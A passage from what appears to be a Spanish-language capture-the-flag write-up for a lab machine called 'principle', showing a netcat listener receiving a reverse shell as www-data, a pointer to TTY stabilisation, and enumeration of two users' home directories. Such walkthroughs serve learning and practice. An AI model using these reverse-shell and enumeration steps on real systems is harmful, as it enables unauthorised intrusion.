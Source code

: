 ~~~bash
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.1.150] from (UNKNOWN) [192.168.1.23] 38692
Linux principle 6.1.0-9-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.27-1 (2023-05-08) x86_64 GNU/Linux
 19:00:40 up  1:19,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
~~~

Ahora antes de nada realizamos el [tratamiento de la TTY](https://kaianperez.github.io/tty/) inmediatamente. En esta máquina es vital, si no, no podrás avanzar.

Si nos vamos a /home podemos ver 2 directorios de trabajo, pero sin permisos en ningún fichero, así que aquí no podemos hacer nada:

~~~bash
www-data@principle:/home$ ls -lRa
.:
total 16
drwxr-xr-x  4 root   root   4096 Jul  4 06:11 .
drwxr-xr-x 18 root   root   4096 Jun 30 05:03 ..
drwxr-xr-x  4 elohim elohim 4096 Jul  5 08:21 gehenna
drwxr-xr-x  3 talos  talos  4096 Jul  5 15:54 talos

./gehenna:
total 36
drwxr-xr-x 4 elohim elohim 4096 Jul  5 08:21 .
drwxr-xr-x 4 root   root   4096 Jul  4 06:11 ..
-rw-r----- 1 elohim elohim    1 Jul  5 08:24 .bash_history
-rw-r----- 1 elohim elohim  261 Jul  5 08:13 .bash_logout
-rw-r----- 1 elohim elohim 3814 Jul  4 05:46 .bashrc
drw-r----- 3 elohim elohim 4096 Jul  2 20:52 .local
-rw-r----- 1 elohim elohim   11 Jul  6 11:01 .lock
-rw-r----- 1 elohim elohim  840 Jul  2 20:22 .profile
drwx------ 2 elohim elohim 4096 Jul  5 08:22 .ssh
-rw-r----- 1 elohim elohim  777 Jul  4 06:26 flag.txt
ls: cannot open directory './gehenna/.local': Permission denied
ls: cannot open directory './gehenna/.ssh': Permission denied

./talos:
total 36
drwxr-xr-x 3 talos talos 4096 Jul  5 15:54 .
drwxr-xr-x 4 root  root  4096 Jul  4 06:11 ..
-rw-r----- 1 talos talos    1 Jul  5 08:26 .bash_history
-rw-r----- 1 talos talos  261 Jul  5 07:56 .bash_logout
-rw-r----- 1 talos talos 3526 Jun 30 05:06 .bashrc
-rw------- 1 talos talos   20 Jul  4 18:24 .lesshst
drw-r----- 3 talos talos 4096 Jun 30 07:30 .local
-rw-r----- 1 talos talos  807 Jun 30 05:06 .profile
-rw-r----- 1 talos talos  286 Jul  5 15:54 note.txt
ls: cannot open directory './talos/.local': Permission denied
~~~
